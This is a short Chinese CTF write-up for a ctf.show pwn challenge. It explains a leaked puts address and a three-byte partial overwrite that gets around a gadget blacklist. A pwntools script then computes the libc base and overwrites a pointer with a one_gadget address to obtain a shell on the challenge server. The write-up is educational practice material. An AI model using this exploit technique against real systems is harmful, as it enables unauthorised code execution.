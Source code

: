 # 挑战简介 
学累了吧，来玩个游戏

# 思路
首先题目直接给了puts函数的地址，并且首先读入我们的输入并转化为int64整数

之后在循环函数中读取三个字符，存于bullets数组，然后修改指定内存的低3个字节  

因此我们可以控制v6的值

<img width="712" height="107" alt="image" src="https://github.com/user-attachments/assets/96d9bd45-89e6-428e-99a4-c86b5ece326e" />

不允许数组的前两个元素同时为 0xc5 和 0xf2 ，或者 0x22 和 0xf3 ，或者 0x8c 和 0xa3  

简单来说就是限制了gadget  

```
from pwn import *
from LibcSearcher import *
context(arch = "amd64",os = 'linux',log_level = 'debug')

#context(arch = "i386",os = 'linux',log_level = 'debug')

#io = process("./pwn")

io = remote('pwn.challenge.ctf.show',28195)

elf = ELF('D:\edge 下载\pwn')

io.recvuntil(b'0x')

put_addr = int(io.recv(12),16)

libc = LibcSearcher('puts', put_addr)

libc_base = put_addr - libc.dump('puts')

strlen = libc_base + 0x3eb0a8

s = str(strlen)

io.sendline(s)

one_gadget = libc_base + 0xe54fe

for _ in range(3):
    io.sendlineafter("biang!\n", chr(one_gadget & 0xff))
    one_gadget >>= 8

io.interactive()
```
